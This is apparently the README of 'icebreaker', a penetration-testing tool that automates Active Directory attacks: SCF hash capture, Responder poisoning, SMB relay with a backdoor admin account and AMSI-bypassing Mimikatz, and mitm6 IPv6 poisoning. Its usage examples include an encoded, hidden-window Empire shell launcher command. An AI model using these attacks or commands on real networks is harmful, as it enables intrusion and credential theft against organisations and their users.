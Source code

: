 icebreaker
------
Break the ice with that cute Active Directory environment over there. Automates network attacks against Active Directory to deliver you piping hot plaintext credentials when you're inside the network but outside of the Active Directory environment. Performs 5 different network attacks for plaintext credentials as well as hashes. Autocracks hashes found with JohnTheRipper and the top 10 million most common passwords.

* RID cycling 
  * Uses Nmap to find NULL SMB sessions
  * Performs asynchronous RID cycling to find valid usernames
  * Performs a 2 password reverse bruteforce of found usernames
  * Passwords tested: P@ssw0rd and \<season\>\<year\>, e.g., Winter2018
* SCF file upload
  * Uses Nmap to find anonymously writeable shares on the network
  * Writes an SCF file to the share with a file icon that points to your machine
  * When a user opens the share in Explorer their hash is sent to you
  * Autocracks the hash with john and top 10 million password list
* LLMNR/NBTNS/mDNS poisoning
  * Uses Responder.py to poison the layer 2 network and capture user hashes
  * Autocracks the hash with john and top 10 million password list
* SMB relay
  * Uses ntlmrelay.py and Responder.py to relay SMB hashes
  * After a successful relay it will do the following on the victim machine:
    * Add an administrative user - icebreaker:P@ssword123456
    * Run an obfuscated and AMSI bypassing version of Mimikatz and parse the output for hashes and passwords
* IPv6 DNS poison
  * Uses mitm6 and ntlmrelayx.py to poison IPv6 DNS and capture user and machine hashes
  * Creates fake WPAD server with authentication
  * Note: this can easily cause network connectivity issues for users so use sparingly


#### How It Works
It will perform these 5 attacks in order. RID cycling and SCF file uploads usually go fast, then it lingers on attack 3, Repsonder.py, for 10 min by default. After that amount of time, or the user-specified amount of time has passed, it will move on to the final two attacks which are run in parallel. If an SCF file was successfully uploaded and a user visits that file share in Explorer, that hash will be caught by either Responder if the hash is sent while attack 3 is running or the hash will be caught by ntlmrelayx if attacks 4 and 5 are running. 

Once ntlmrelayx relays a captured hash, it will run a base64-encoded powershell command that first adds an administrative user (icebreaker:P@ssword123456) then runs an obfuscated and AMSI-bypassing version of Mimikatz. This mimikatz output is parsed and delivered to the user in the standard output as well as in the found-passwords.txt document. 

All that's left is pipe those credentials into [DeathStar](https://byt3bl33d3r.github.io/automating-the-empire-with-the-death-star-getting-domain-admin-with-a-push-of-a-button.html) and BAM you went from being a lonely outsider leering at the party going on in that Active Directory domain to being tha goddamn domain admin.


#### Installation
Note to Kali users: you will need to run 'apt-get remove python-impacket' before running the setup script
```
sudo ./setup.sh
sudo pipenv shell
```

#### Usage
Read from a newline separated list of IP addresses

```sudo ./icebreaker -l targets.txt```

Read from Nmap XML file, tell Responder to use the eth0 interface rather than the default gateway interface, and instead of having ntlmrelayx add a user and mimikatz'ing the victim upon hash relay, have it execute a custom command on the victim machine. In this case that command is an Empire shell launcher.

```sudo ./icebreaker -x nmapscan.xml -i eth0 -c "powershell.exe -NoP -NonI -w hidden -enc JABXAEMdwaT..."```

Skip all five attacks and don't autocrack hashes

```sudo ./icebreaker.py -x nmapscan.xml -s rid,scf,llmnr,ntlmrelay,dns,crack```

Run attack 3, LLMNR poisoning, for 30 minutes before moving on to attack 4, SMB relaying

```sudo ./icebreaker.py -x nmapscan.xml -t 30```
